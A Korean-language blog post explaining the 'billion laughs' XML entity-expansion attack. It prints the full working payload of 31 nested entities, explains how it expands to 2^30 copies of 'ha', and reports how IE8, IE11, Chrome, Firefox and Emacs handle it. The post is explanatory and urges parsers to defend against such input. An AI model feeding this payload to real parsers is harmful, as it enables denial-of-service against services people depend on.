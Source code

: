 date: 2011-04-14
tags: security
title: 교활한 XML
---
XML 파일이 프로그램을 죽일 수도 있다는 생각은 하지 못했다. XML은 그저 텍스트일 뿐이고 프로그램은 그저 파일을 읽어서 처리할 뿐인데... 그런데 다음과 같은 파일을 보고서야 그럴 수도 있다는 것을 알게 되었다.
<!-- more -->

```xml
<?xml version="1.0"?>
<!DOCTYPE billion [
<!ELEMENT billion (#PCDATA)>
<!ENTITY laugh0 "ha">
<!ENTITY laugh1 "&laugh0;&laugh0;">
<!ENTITY laugh2 "&laugh1;&laugh1;">
<!ENTITY laugh3 "&laugh2;&laugh2;">
<!ENTITY laugh4 "&laugh3;&laugh3;">
<!ENTITY laugh5 "&laugh4;&laugh4;">
<!ENTITY laugh6 "&laugh5;&laugh5;">
<!ENTITY laugh7 "&laugh6;&laugh6;">
<!ENTITY laugh8 "&laugh7;&laugh7;">
<!ENTITY laugh9 "&laugh8;&laugh8;">
<!ENTITY laugh10 "&laugh9;&laugh9;">
<!ENTITY laugh11 "&laugh10;&laugh10;">
<!ENTITY laugh12 "&laugh11;&laugh11;">
<!ENTITY laugh13 "&laugh12;&laugh12;">
<!ENTITY laugh14 "&laugh13;&laugh13;">
<!ENTITY laugh15 "&laugh14;&laugh14;">
<!ENTITY laugh16 "&laugh15;&laugh15;">
<!ENTITY laugh17 "&laugh16;&laugh16;">
<!ENTITY laugh18 "&laugh17;&laugh17;">
<!ENTITY laugh19 "&laugh18;&laugh18;">
<!ENTITY laugh20 "&laugh19;&laugh19;">
<!ENTITY laugh21 "&laugh20;&laugh20;">
<!ENTITY laugh22 "&laugh21;&laugh21;">
<!ENTITY laugh23 "&laugh22;&laugh22;">
<!ENTITY laugh24 "&laugh23;&laugh23;">
<!ENTITY laugh25 "&laugh24;&laugh24;">
<!ENTITY laugh26 "&laugh25;&laugh25;">
<!ENTITY laugh27 "&laugh26;&laugh26;">
<!ENTITY laugh28 "&laugh27;&laugh27;">
<!ENTITY laugh29 "&laugh28;&laugh28;">
<!ENTITY laugh30 "&laugh29;&laugh29;">
]>
<billion>&laugh30;</billion>
```

우리회사 프로그램이 제대로 처리하지 못한다며 고객이 보내준 XML 파일이다. 이 파일을 Chrome이나 Firefox와 같은 브라우저에서 열면 즉각 에러를 표시한다.

{% asset_img chrome.png %}

그러나 IE8에서 열면 브라우저 화면에 아무것도 나타나지 않지만 CPU를 계속 사용하고 메모리도 계속 늘어난다. 메모리 사용량이 거의 1GB가까지 늘어나는 것을 보고 죽여야 했다. IE8도 이 XML 파일을 제대로 처리하지 못하는 것이다.

파일 내용을 보면 `laugh0` ~ `laugh30`까지 31개의 엔터티를 정의하는데 `laugh0`은 "ha"로 정의되어 있고 나머지 엔터티는 이전 엔터티를 두번 참조하는 것으로 정의되어 있다. `laugh1`은 `laugh0`이 두번 나오는 것이고, `laugh2`는 `laugh1`이 두번 나오는 것이다. 이런 식으로 `laugh30`까지 간다. 따라서 엔터티를 모두 확장해보면...

```
laugh0 --> ha
laugh1 --> haha
laugh2 --> hahahaha
laugh3 --> hahahahahahahaha
laugh4 --> hahahahahahahahahahahahahahahaha
laugh5 --> hahahahahahahahahahahahahahahahahahahahahahahahahahahahahahahaha
...
```
`<billion>&laugh30;</billion>`을 표시하려면 "ha"를 2<sup>30</sup>번 표시해야 한다. 2<sup>30</sup>이면 1G에 해당하는 크기다. "ha"를 2바이트라고 하면 이 XML 문서를 표시하기 위해 2GB 길이의 문자열을 표시해야 하는 것이다.

이 교활한 XML 파일을 읽고는 프로그램이 죽어버리거나 제대로 처리하지 못하는 것도 이해할만하지만 잘 작성된 프로그램이라면 그러지 말아야 한다. Chrome이나 Firefox는 이런 문제가 생길 수 있다는 것을 즉각 알아채고 에러 메시지를 표시한다. 잘 작성된 프로그램이다. IE8은 그렇지 못하다.

이 XML 파일을 보고서야 XML 문서로 프로그램을 공격할 수 있다는 걸 알게 되었고, 프로그램을 작성할 때도 이런 공격에 대비를 해야 한다는 것도 알게 되었다.

## 업데이트 (2014-11-12)
* 윈도우7 IE11에서 위 XML 파일을 열어보면 예전의 IE8 처럼 삽질을 하지 않는다. 그저 조용히 맨 아랫줄 `<billion>&laugh30;</billion>`을 제거하고 아무런 에러 메시지도 표시하지 않는다. 브라우저가 멈춰버리지는 않지만 친절한 UX라 할 수는 없다.
* Emacs(24.4.1) 에디터에서 위 XML 파일을 열면 응답하지 않는 상태가 된다. XML 소스를 scratch 버퍼에 붙여넣는 것은 되지만 이를 XML 파일로 저장하려 하면 역시 응답하지 않는 상태가 된다. 프로세스가 CPU를 계속 사용하는 것으로 보아 뭔가 삽질을 하고 있는게 분명하다.
